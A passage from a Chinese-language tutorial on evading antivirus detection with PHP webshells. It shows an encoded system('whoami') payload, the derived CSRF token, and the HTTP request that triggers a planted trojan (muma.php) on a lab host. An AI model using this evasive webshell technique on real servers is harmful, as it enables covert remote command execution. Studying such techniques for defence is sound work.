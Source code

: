 然后通过上文写的解密 PHP，通过第一步获得的 `Token` 值和最终 Base64 加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`，拿到得到 `X-CSRF-TOKEN`

![样例三 -2.png](assets/1698896037-ec857f8402b1a5a16b35408b61fe9676.png)

**注：这不是对 WebShell 发包，而是我上面写的解密 PHP `decode.php` 来进行解密**

#### 12.3.3 第三步，利用木马成功执行命令

现在已经拿到 `X-CSRF-TOKEN` 和 `Cookie` 了，那就直接发包即可

```http
POST /muma.php HTTP/1.1
Host: test.ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=6g4sgte2t8nnv65u8er5cfdtnq;
X-CSRF-TOKEN: AgEOSQIkN015dlcKVX4MDQNlCV0tNxJe
Content-Length: 0
```

可以看到，成功执行系统命令 `whoami` 了

![样例三 -3.png](assets/1698896037-8c8bc73a80efee7f9de84243c9d307f7.png)

所以你学废了吗？更多有趣的 WebShell 免杀案例等我后续更新~

# 四，总结
